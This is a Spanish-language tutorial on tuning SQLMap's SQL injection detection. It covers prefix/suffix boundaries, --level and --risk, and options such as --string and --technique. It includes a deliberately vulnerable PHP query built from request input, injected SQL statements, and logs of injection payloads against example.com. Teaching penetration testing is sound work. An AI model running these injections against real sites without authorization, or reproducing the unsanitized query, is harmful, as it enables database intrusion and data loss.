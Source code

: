 En la mayoría de los casos, SQLMap debería funcionar correctamente con los detalles del target proporcionados. Sin embargo, hay opciones para ajustar los intentos de inyección SQLi para ayudar a SQLMap en la fase de detección. Cada payload enviado al target consiste en:

- vector (e.g., `UNION ALL SELECT 1,2,VERSION()`): parte central del payload, que lleva el código SQL útil a ejecutarse en el target.
    
- boundaries (e.g. `'<vector>-- -`): formaciones de prefijo y sufijo, utilizadas para la inyección adecuada del vector en la declaración SQL vulnerable.
    
---

## Prefix/Suffix

En casos raros, es necesario utilizar valores de prefijo y sufijo especiales que no están cubiertos por la ejecución regular de SQLMap. Para tales ejecuciones, se pueden usar las opciones `--prefix` y `--suffix` de la siguiente manera:

```r
sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"
```

Esto resultará en un encuadre de todos los valores del vector entre el prefijo estático `%'))` y el sufijo `-- -`. Por ejemplo, si el código vulnerable en el target es:

```r
$query = "SELECT id,name,surname FROM users WHERE id LIKE (('" . $_GET["q"] . "')) LIMIT 0,1";
$result = mysqli_query($link, $query);
```

El vector `UNION ALL SELECT 1,2,VERSION()`, delimitado con el prefijo `%'))` y el sufijo `-- -`, resultará en la siguiente declaración SQL (válida) en el target:

```r
SELECT id,name,surname FROM users WHERE id LIKE (('test%')) UNION ALL SELECT 1,2,VERSION()-- -')) LIMIT 0,1
```

---

## Level/Risk

Por defecto, SQLMap combina un conjunto predefinido de boundaries más comunes (es decir, pares de prefijo/sufijo), junto con los vectores que tienen una alta probabilidad de éxito en caso de un target vulnerable. No obstante, existe la posibilidad de que los usuarios utilicen conjuntos más grandes de boundaries y vectores, ya incorporados en SQLMap.

Para tales demandas, se deben usar las opciones `--level` y `--risk`:

- La opción `--level` (`1-5`, por defecto `1`) amplía tanto los vectores como los boundaries utilizados, según su expectativa de éxito (es decir, cuanto menor sea la expectativa, mayor será el nivel).
    
- La opción `--risk` (`1-3`, por defecto `1`) amplía el conjunto de vectores utilizados según su riesgo de causar problemas en el lado del target (es decir, riesgo de pérdida de entrada en la base de datos o denegación de servicio).
    

La mejor manera de verificar las diferencias entre los boundaries y payloads utilizados para diferentes valores de `--level` y `--risk`, es usar la opción `-v` para configurar el nivel de verbosidad. En la verbosidad 3 o superior (e.g., `-v 3`), se mostrarán mensajes que contienen el `[PAYLOAD]` utilizado, de la siguiente manera:

```r
sqlmap -u www.example.com/?id=1 -v 3 --level=5

...SNIP...
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:17:07] [PAYLOAD] 1) AND 5907=7031-- AuiO
[14:17:07] [PAYLOAD] 1) AND 7891=5700 AND (3236=3236
...SNIP...
[14:17:07] [PAYLOAD] 1')) AND 1049=6686 AND (('OoWT' LIKE 'OoWT
[14:17:07] [PAYLOAD] 1'))) AND 4534=9645 AND ((('DdNs' LIKE 'DdNs
[14:17:07] [PAYLOAD] 1%' AND 7681=3258 AND 'hPZg%'='hPZg
...SNIP...
[14:17:07] [PAYLOAD] 1")) AND 4540=7088 AND (("hUye"="hUye
[14:17:07] [PAYLOAD] 1"))) AND 6823=7134 AND ((("aWZj"="aWZj
[14:17:07] [PAYLOAD] 1" AND 7613=7254 AND "NMxB"="NMxB
...SNIP...
[14:17:07] [PAYLOAD] 1"="1" AND 3219=7390 AND "1"="1
[14:17:07] [PAYLOAD] 1' IN BOOLEAN MODE) AND 1847=8795#
[14:17:07] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

Por otro lado, los payloads utilizados con el valor por defecto `--level` tienen un conjunto de boundaries considerablemente más pequeño:

```r
sqlmap -u www.example.com/?id=1 -v 3
...SNIP...
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:20:36] [PAYLOAD] 1) AND 2678=8644 AND (3836=3836
[14:20:36] [PAYLOAD] 1 AND 7496=4313
[14:20:36] [PAYLOAD] 1 AND 7036=6691-- DmQN
[14:20:36] [PAYLOAD] 1') AND 9393=3783 AND ('SgYz'='SgYz
[14:20:36] [PAYLOAD] 1' AND 6214=3411 AND 'BhwY'='BhwY
[14:20:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (subquery - comment)'
```

En cuanto a los vectores, podemos comparar los payloads utilizados de la siguiente manera:

```r
sqlmap -u www.example.com/?id=1
...SNIP...
[14:42:38] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:42:38] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
...SNIP...
```

```r
sqlmap -u www.example.com/?id=1 --level=5 --risk=3

...SNIP...
[14:46:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause'
[14:46:03] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT)'
...SNIP...
[14:46:05] [INFO] testing 'PostgreSQL AND boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'PostgreSQL OR boolean-based blind - WHERE or HAVING clause (CAST)'
[14:46:05] [INFO] testing 'Oracle AND boolean-based blind - WHERE or HAVING clause (CTXSYS.DRITHSX.SN)'
...SNIP...
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause'
[14:46:05] [INFO] testing 'MySQL < 5.0 boolean-based blind - ORDER BY, GROUP BY clause (original value)'
[14:46:05] [INFO] testing 'PostgreSQL boolean-based blind - ORDER BY clause (original value)'
...SNIP...
[14:46:05] [INFO] testing 'SAP MaxDB boolean-based blind - Stacked queries'
[14:46:06] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[14:46:06] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
...SNIP...
```

En cuanto al número de payloads, por defecto (es decir, `--level=1 --risk=1`), el número de payloads utilizados para probar un solo parámetro llega hasta 72, mientras que en el caso más detallado (`--level=5 --risk=3`), el número de payloads aumenta a 7,865.

Dado que SQLMap ya está ajustado para verificar los boundaries y vectores más comunes, se aconseja a los usuarios regulares no tocar estas opciones porque harán que todo el proceso de detección sea considerablemente más lento. No obstante, en casos especiales de vulnerabilidades SQLi, donde es imprescindible el uso de payloads `OR` (por ejemplo, en el caso de páginas de `login`), es posible que tengamos que aumentar el nivel de riesgo nosotros mismos.

Esto se debe a que los payloads `OR` son inherentemente peligrosos en una ejecución por defecto, donde las declaraciones SQL subyacentes vulnerables (aunque

 menos comúnmente) están modificando activamente el contenido de la base de datos (por ejemplo, `DELETE` o `UPDATE`).

---

## Advanced Tuning

Para ajustar aún más el mecanismo de detección, existe un amplio conjunto de interruptores y opciones. En casos regulares, SQLMap no requerirá su uso. Aun así, debemos estar familiarizados con ellos para poder utilizarlos cuando sea necesario.

### Status Codes

Por ejemplo, al tratar con una respuesta de target grande con mucho contenido dinámico, las diferencias sutiles entre respuestas `TRUE` y `FALSE` podrían usarse para fines de detección. Si la diferencia entre respuestas `TRUE` y `FALSE` puede verse en los códigos HTTP (por ejemplo, `200` para `TRUE` y `500` para `FALSE`), la opción `--code` podría usarse para fijar la detección de respuestas `TRUE` a un código HTTP específico (por ejemplo, `--code=200`).

### Titles

Si la diferencia entre respuestas puede verse inspeccionando los títulos de las páginas HTTP, el interruptor `--titles` podría usarse para instruir al mecanismo de detección a basar la comparación en el contenido de la etiqueta HTML `<title>`.

### Strings

En el caso de que un valor de cadena específico aparezca en respuestas `TRUE` (por ejemplo, `success`), mientras está ausente en respuestas `FALSE`, la opción `--string` podría usarse para fijar la detección solo en la aparición de ese valor único (por ejemplo, `--string=success`).

### Text-only

Al tratar con una gran cantidad de contenido oculto, como ciertas etiquetas de comportamiento de página HTML (por ejemplo, `<script>`, `<style>`, `<meta>`, etc.), podemos usar el interruptor `--text-only`, que elimina todas las etiquetas HTML y basa la comparación solo en el contenido textual (es decir, visible).

### Techniques

En algunos casos especiales, debemos restringir los payloads utilizados solo a un tipo específico. Por ejemplo, si los payloads basados en tiempo están causando problemas en forma de tiempos de espera de respuesta, o si queremos forzar el uso de un tipo específico de payload SQLi, la opción `--technique` puede especificar la técnica SQLi a utilizar.

Por ejemplo, si queremos omitir los payloads basados en tiempo y apilamiento SQLi y solo probar los payloads basados en boolean, error y UNION-query, podemos especificar estas técnicas con `--technique=BEU`.

### UNION SQLi Tuning

En algunos casos, los payloads `UNION` SQLi requieren información adicional proporcionada por el usuario para funcionar. Si podemos encontrar manualmente el número exacto de columnas de la consulta SQL vulnerable, podemos proporcionar este número a SQLMap con la opción `--union-cols` (por ejemplo, `--union-cols=17`). En caso de que los valores de relleno "dummy" predeterminados utilizados por SQLMap -`NULL` y un entero aleatorio- no sean compatibles con los valores de los resultados de la consulta SQL vulnerable, podemos especificar un valor alternativo en su lugar (por ejemplo, `--union-char='a'`).

Además, en caso de que sea necesario usar un apéndice al final de una consulta `UNION` en la forma de `FROM <table>` (por ejemplo, en el caso de Oracle), podemos configurarlo con la opción `--union-from` (por ejemplo, `--union-from=users`).  
No usar automáticamente el apéndice `FROM` adecuado podría deberse a la incapacidad de detectar el nombre del DBMS antes de su uso.
